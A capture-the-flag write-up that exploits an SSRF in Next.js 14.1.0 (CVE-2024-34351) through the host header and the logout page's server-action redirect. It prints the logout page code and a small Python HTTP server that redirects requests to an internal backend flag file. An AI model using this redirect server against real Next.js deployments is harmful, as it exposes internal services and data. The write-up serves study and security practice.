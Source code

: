 Basically this challenge is frontend challenge using next js in the version 14.1.0.º
This version is vulnerable to a SSRF in the host header:

- https://osv.dev/vulnerability/GHSA-fr5h-rqp8-mj6g
- https://www.cve.news/cve-2024-34351/
- https://github.com/azu/nextjs-CVE-2024-34351/tree/main

Basically we need to find a page that has a redirect. Logout page has one and we can access ti without being authenticated:

```js

import Link from "next/link";
import { redirect } from "next/navigation";
import { signOut } from "@/auth";

export default function Page() {
  return (
    <>
      <h1 className="text-2xl font-bold">Log out</h1>
      <p>Are you sure you want to log out?</p>
      <Link href="/admin">
        Go back
      </Link>
      <form
        action={async () => {
          "use server";
          await signOut({ redirect: false });
          redirect("/login");
        }}
      >
        <button type="submit">Log out</button>
      </form>
    </>
  )
}
```

With the following flask server we can get the flag which is in the backend with:

```py
from http.server import BaseHTTPRequestHandler, HTTPServer

class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'http://backend/flag.txt')
        self.end_headers()
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

def run(server_class=HTTPServer, handler_class=RedirectHandler, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f"Server running at http://localhost:{port}/")
    httpd.serve_forever()

if __name__ == "__main__":
    run()

```

